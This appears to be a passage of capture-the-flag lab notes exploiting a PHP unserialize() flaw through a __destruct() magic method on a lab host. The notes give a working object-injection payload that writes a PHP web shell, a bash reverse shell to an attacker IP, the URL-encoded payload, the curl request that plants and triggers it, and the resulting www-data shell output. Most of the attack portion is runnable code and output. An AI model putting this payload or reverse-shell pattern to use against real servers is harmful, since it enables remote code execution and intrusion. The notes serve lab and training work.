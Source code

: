 ```
?>
```

The code confirms the association between this and the **users.txt** file, because it just writes **Success** to it ($this->data) and thats all the file actually has. <br>

The only thing i can see that is prone to exploitation is the **unserialize($input)** function usage without treating the data and having a magic method (in this case, **__destruct()**)<br> 

To exploit it, we need to create a local file (i named **exp.php**, and is in the folder of this notes) and create a class with the following structure
```
class DatabaseExport {
    public $user_file;
    public $data;
}
```

Then, we need to create an object of it, assign what we want to **\$user_file** and **\$data**, serialize and urlencode it ! <br>

```
$o = new DatabaseExport();
$o->user_file = 'waza.php';
$o->data = '<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/10.10.16.14/1414 0>&1\'"); ?>'; 

$payload = urlencode(serialize($o));

echo $payload;
```

What happens is that, when it is unserialized it "poisons" the object **\$databaseupdate** and when the thread in charge of processing my requeste is about to end, it needs to destruct all the objects so when it destructs the object with the malicious input, it calls the file_put_contents and uses the data that as unserialized <br>

The payload generated is
```
O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A8%3A%22waza.php%22%3Bs%3A4%3A%22data%22%3Bs%3A74%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.16.14%2F1414+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D%
```

Making the request
```
cmd: curl -X GET "http://10.10.10.223/sator.php?arepo=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A8%3A%22waza.php%22%3Bs%3A4%3A%22data%22%3Bs%3A74%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.16.14%2F1414+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D%" && curl "http://10.10.10.223/waza.php"
```

Voila !

```
cmd: whoami && id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
